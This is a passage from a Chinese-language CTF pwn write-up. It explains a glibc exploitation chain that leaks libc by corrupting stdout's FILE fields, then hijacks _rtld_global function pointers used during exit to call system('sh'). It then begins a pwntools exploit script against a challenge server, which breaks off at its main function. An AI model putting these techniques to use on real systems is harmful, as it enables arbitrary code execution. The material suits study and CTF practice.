 ```c
    chunk_addr[idx] = buf;
  }
  exit(7777);
}
```

泄露方法是分配一块极大size的heap，这种利用在之前的Hitcon出现过，最后map的地址用来存放堆，给定一个size，map和libc的偏移是一定的。我们可以分配一块极大的heap，通过两次写改掉_IO_2_1_stdut_的_flags和_IO_write_base泄露libc。

后面需要了解exit的调用过程，在HCTF-the end中可以看到最后调用_dl_fini，一直跟下去，会发现有几次调用`_rtld_global+3848`，前面lea rdi设置的参数在`_rtld_global+2312`

![call](./jjj_pwn2_1.png)

因此用3次写函数指针的后三位为syetem函数后三位(本身就是一个libc相关的地址)，再两字节改参数为'sh'，最后即可调用system("sh")，这里的_rtld_global是ld中的符号，我是直接调试的，题目给了ld，也可以用ld.sym再计算偏移(和heap以及libc的偏移也是固定的)

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./heap')
libc_offset = 0x3c4b20
gadgets = [0x4f2c5,0x4f322,0x10a38c]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./heap')

else:
    libc = ELF('./libc-2.27.so')
    p = remote('f.buuoj.cn',20173)

def Add(size,name,call):
    p.recvuntil('choice:')
    p.sendline('1')
    p.recvuntil("Please input the size of compary's name")
    p.sendline(str(size))
    p.recvuntil("please input name:")
    p.send(name)
    p.recvuntil("please input compary call:")
    p.send(call)

def Show(index):
    p.recvuntil('choice:')
    p.sendline('2')
    p.recvuntil("Please input the index:")
    p.sendline(str(index))

def Delete(index):
    p.recvuntil('choice:')
    p.sendline('3')
    p.recvuntil("Please input the index:")
    p.sendline(str(index))

def RandWrite(libc_off,val):
    idx = libc_off + 0x1000ff0
    p.recvline()
    p.send(str(idx))
    p.send(val)

def exp():
```